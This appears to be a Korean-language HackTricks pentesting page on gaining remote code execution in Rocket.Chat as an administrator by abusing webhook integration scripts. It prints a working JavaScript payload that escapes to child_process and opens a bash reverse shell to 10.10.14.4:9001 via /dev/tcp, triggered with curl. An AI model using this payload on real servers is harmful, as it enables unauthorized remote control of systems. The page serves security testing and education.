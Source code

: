 # 로켓 챗

{{#include ../../banners/hacktricks-training.md}}


## RCE

로켓 챗에서 관리자인 경우 RCE를 얻을 수 있습니다.

- **`Integrations`**로 가서 **`New Integration`**을 선택하고 **`Incoming WebHook`** 또는 **`Outgoing WebHook`** 중 하나를 선택합니다.
- `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- [문서](https://docs.rocket.chat/guides/administration/admin-panel/integrations)에 따르면, 두 가지 모두 ES2015 / ECMAScript 6 ([기본적으로 JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c))를 사용하여 데이터를 처리합니다. 그래서 [자바스크립트용 rev shell](../../generic-hacking/reverse-shells/linux.md#nodejs)을 얻어봅시다:
```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
- WebHook을 구성합니다 (채널과 사용자 이름으로 게시물이 존재해야 합니다):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- WebHook 스크립트를 구성합니다:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- 변경 사항 저장
- 생성된 WebHook URL을 가져옵니다:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- curl로 호출하면 rev shell을 받을 수 있습니다.


{{#include ../../banners/hacktricks-training.md}}
